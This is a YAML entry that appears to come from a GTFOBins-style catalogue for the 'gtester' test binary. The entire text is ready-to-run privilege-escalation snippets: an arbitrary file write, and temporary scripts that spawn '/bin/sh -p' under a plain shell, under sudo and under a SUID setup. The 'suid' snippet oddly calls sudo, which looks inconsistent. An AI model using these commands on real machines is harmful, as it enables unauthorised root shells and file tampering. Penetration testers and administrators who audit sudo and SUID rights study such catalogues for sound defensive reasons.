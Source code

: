 functions:
  file-write:
    - description: Data to be written appears in an XML attribute in the output file (`<testbinary path="DATA">`).
      code: |
        LFILE=file_to_write
        gtester "DATA" -o $LFILE
  shell:
    - code: |
        TF=$(mktemp)
        echo '#!/bin/sh' > $TF
        echo 'exec /bin/sh -p 0<&1' >> $TF
        chmod +x $TF
        gtester -q $TF
  sudo:
    - code: |
        TF=$(mktemp)
        echo '#!/bin/sh' > $TF
        echo 'exec /bin/sh 0<&1' >> $TF
        chmod +x $TF
        sudo gtester -q $TF
  suid:
    - code: |
        TF=$(mktemp)
        echo '#!/bin/sh -p' > $TF
        echo 'exec /bin/sh -p 0<&1' >> $TF
        chmod +x $TF
        sudo gtester -q $TF
---
